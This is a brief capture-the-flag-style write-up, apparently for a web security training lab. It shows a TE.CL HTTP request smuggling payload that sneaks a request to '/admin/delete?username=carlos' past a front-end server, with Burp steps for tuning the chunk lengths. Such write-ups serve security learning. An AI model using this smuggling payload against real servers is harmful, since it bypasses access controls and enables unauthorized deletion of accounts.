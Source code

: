 

1. Try to access the admin path;

![](/static/img/Pasted_image_20231202112040.png)

2. Execute the following request to solve the lab :p 

```http
POST / HTTP/1.1
Host: 0add00b70485be4e806fee2100600057.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

50
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 6

0
```

![](/static/img/Pasted_image_20231202120532.png)



#### The solution step by step..


1. First we need to verify that the lab is TE.CL request smuggler;
2. The best approach is to:
	1. Send the (two) request to repeater and change the GET / to POST /
	2. Add the Content-Length header;
	3. Use the burp inspector while select the payload;
![](/static/img/Pasted_image_20231202120842.png)
3. Notice that the 0x28 is the value of the "chunked" string, that we send to the server;
> This is the most important part, because without this, we cant manipulate the path to delete carlos user;

![](/static/img/Pasted_image_20231202121054.png)

4. Now change the path to admin, and verify the size of the string again, send the malicious request and verify with the "normal" the exploit:


![](/static/img/Pasted_image_20231202121251.png)

5. Change the path to `/admin/delete?username=carlos` and exploit 

![](/static/img/Pasted_image_20231202121330.png)

> remember to verify the length of the string before the 0;


![](/static/img/Pasted_image_20231202121432.png)